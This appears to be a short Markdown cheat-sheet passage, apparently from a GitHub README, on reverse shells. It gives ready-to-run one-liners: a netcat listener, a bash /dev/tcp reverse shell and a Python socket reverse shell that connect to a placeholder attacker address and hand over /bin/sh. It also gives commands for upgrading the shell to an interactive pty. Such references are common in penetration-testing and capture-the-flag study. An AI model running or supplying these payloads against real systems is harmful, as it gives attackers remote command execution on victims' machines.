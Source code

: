 - ### Reverse Shell
  A Reverse Shell is a type of connection where a target machine initiates a remote shell back to an attacker's system, allowing the attacker to execute
  commands on the target as if they were locally present. It can be easily achieved using [Netcat](https://nmap.org/ncat/).

  #### Local Machine
  ```bash
  nc -lvnp ${PORT}
  ```
  
  #### Remote Machine
  ```bash
  bash -i >& /dev/tcp/${LOCAL_MACHINE_IP}/${PORT} 0>&1
  ```
  or

  ```bash
  python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("YOUR.IP.ADDR.HERE",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
  ```
  
  
<br/>

- ### Bash Spawn <br/>
  Spawns an interactive pseudo-terminal **(pty)** running **/bin/bash**, which upgrades a basic shell to behave more like a fully interactive terminal.
  Useful when doing a Reverse Shell.

  ```bash
  script /dev/null -c bash
  ```
  or
  ```bash
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```  
